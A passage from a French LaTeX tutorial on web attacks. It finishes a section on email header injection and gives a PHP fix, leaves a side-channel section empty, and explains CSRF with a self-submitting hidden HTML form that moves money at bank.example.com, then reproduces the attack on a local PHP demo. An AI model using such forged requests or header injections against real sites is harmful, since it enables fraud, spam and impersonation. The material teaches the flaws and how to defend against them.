
\includegraphics[width=\textwidth]{9}\\
\vspace{0.2cm}

En utilisant ensuite Tamper Data afin d'altérer la requête POST, on peux prévenir notre requête d'être encoder en format URL. Car dans notre cas, le symbole \% est automatiquement transformé par Firefox en \%25, ce qui n'est pas ce que l'on veut.
\vspace{0.2cm}\\

\includegraphics[width=\textwidth]{10}\\
\vspace{0.2cm}

Enfin, on envoie la requête et pouvons maintenant consulter sur notre adresse un double du mail que l'admin a reçu :p Avec cette méthode, il est possible de spammer des personnes, de se faire passer pour certaines personnes...

\subsection{Solutions}
Pour se protéger contre ce type d'attaque, il suffit de vérifier que les informations entré par l'utilisateur ne contiennent pas les symboles \textbackslash n ou \textbackslash r. Par exemple, le bout de code suivant réalise cette opération :\\
\vspace{0.1cm}\\
\fbox{\parbox{\textwidth}{
\hspace*{0.6cm}if(eregi("\textbackslash r",\$from) or eregi("\textbackslash n",\$from)) \{\\
\hspace*{1.2cm}die("Why ?? :(");\\
\hspace*{0.6cm}\}
}}
\vspace{0.1cm}\\

\newpage
\section{Attaque temporel - Attaque par Canaux cachés}
\subsection{Qu'est ce qu'un canal caché ?}

\newpage
\section{CSRF - Cross-site request forgery}
\subsection{Qu'est ce qu'une attaque CSRF ?}
Pour expliquer cela, il est beaucoup plus intéressant de prendre un exemple. Imaginons la scène suivante :\\
\begin{itemize}
\item Une personne s'enregistre à sa banque normalement\\
\item La banque donne un cookie a cette personne qui permet de définir session\\
 (Set-Cookie: SESSIONID=a804696f-93fc-48cf-9b02-267d9ed773c0)\\
\item Puis sur d'autre onglet, cette personne navigue sur d'autres sites\\
\item Et tombe sur un site, avec un code malicieux :\\
\fbox{\parbox{\textwidth}{
\begin{scriptsize}
<form name="attack" enctype="text/plain" action="https://bank.example.com/api/transfer" METHOD="POST">\\
  <input type="hidden" name='{"from": "Savings", "to": "00302319550440", "amount": "100.00"}'>\\
</form>\\
<script>document.attack.submit();</script>
\end{scriptsize}
}}\\
\item Lorsque l'utilisateur arrive sur la page, son navigateur lit la page et va exécuter le code. Ce qui va résulter à un transfert de 100 euros à un certain compte bancaire\\
\item Comme l'utilisateur a un cookie avec une session valide, la requête émis via le formulaire va etre accepté par le site de la banque
\end{itemize}
\subsection{Exemple}

Nous n'allons bien évidement pas testé ce type d'attaque sur un site de banque. Nous allons nous servir de deux petits fichiers PHP afin d'illustrer parfaitement cette attaque. Nous allons donc simuler un site avec une authentification via SESSION et un petit bouton qui permet de faire des dons de 120 dollars :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{csrf}
}}
\vspace{0.2cm}

Sous Firefox, nous obtenons la chose suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{csrf1}
}}
\vspace{0.2cm}

Sous Cookie Manager+, j'ai regardé qu'une session était bel et bien crée. J'ai donc un système de session comme on pourrait le trouver sur n'importe quel site. Maintenant passons, au niveau de l'attaque. Si l'on regarde le source code pour savoir ce qu'effectue le bouton "don", on observe ceci :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
<form action="" method="post">\\
\hspace*{0.6cm}<input name="amount" value="120" type="hidden">\\
\hspace*{0.6cm}<input name="submit" value="Don" type="submit">\\
</form>
}}
\vspace{0.2cm}

On remarque donc que la valeur est passé par un input hidden. On va donc imité ce script sur une page php hebergé sur un autre site :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{csrf2}
}}
\vspace{0.2cm}

Comme on peut le voir, j'ai redirigé l'action sur la page qui effectue le script et j'ai aussi automatisé le script afin que l'utilisateur que je souhaite piégé n'est qu'à ce rendre sur la page. Si on test notre page sans session valide, on obtient le résultat suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{csrf3}
}}
\vspace{0.2cm}

Ce résultat est normal. Maintenant si un utilisateur se connecte sur le site qui crée la session puisse arrive sur notre page piégé, l'opération de don se lancera automatiquement avec une valeur modifié :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
